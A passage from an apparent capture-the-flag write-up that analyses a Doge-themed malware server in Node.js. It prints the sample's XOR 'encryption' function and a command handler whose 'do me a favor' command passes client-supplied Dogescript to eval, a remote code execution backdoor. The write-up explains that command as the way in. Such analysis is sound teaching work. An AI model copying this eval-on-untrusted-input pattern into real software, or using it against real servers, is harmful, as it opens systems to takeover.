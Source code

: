```js linenums="24" hl_lines="9"

function cript(input, key) {
    var c = Buffer.alloc(input.length);
    while (key.length < input.length) {
        key += key;
    }
    var ib = Buffer.from(input);
    var kb = Buffer.from(key);
    for (i = 0; i < input.length; i++) {
        c[i] = ib[i] ^ kb[i]
    }
    return c.toString();
}
```

Continuing through the program, we see a function that parses commands sent to the server:

```js linenums="37" hl_lines="2"
function dogeParam(buffer) {
    var doge_command = dson.parse(buffer);
    var doge_response = {};

    if (!('dogesez' in doge_command)) {
        doge_response['dogesez'] = 'bonk';
        doge_response['shibe'] = 'doge not sez';
        return dson.stringify(doge_response);
    }

    if (doge_command.dogesez === 'ping') {
        doge_response['dogesez'] = 'pong';
        doge_response['ohmaze'] = doge_command.ohmaze;
    }

    if (doge_command.dogesez === 'do me a favor') {
        var favor = undefined;
        var doge = undefined;
        try {
            doge = dogescript(doge_command.ohmaze);
            favor = eval(doge);
            doge_response['dogesez'] = 'welcome';
            doge_response['ohmaze'] = favor;
        } catch {
            doge_response['dogesez'] = 'bonk';
            doge_response['shibe'] = 'doge sez no';
        }
    }
...
```

The function is passed a buffer containing a command string, which is encoded as
`DSON`, or [Doge Serialized Object Notation](https://dogeon.xyz/) (sigh). The malware
is using the [dogeon](https://github.com/kpdecker/dogeon) serializer to parse the
requests from the client.  Commands from the client are passed as the value of the
`dogesez` attribute. There are many different commands, but the important one is `'do
me a favor'`, which runs a Dogescript and returns the result to the caller. We can
also perform a `'ping'` to the server to check that our messages are being received
correctly. The remaining commands deal with encrypting files sent to the server,
but for the purposes of this CTF aren't necessary.
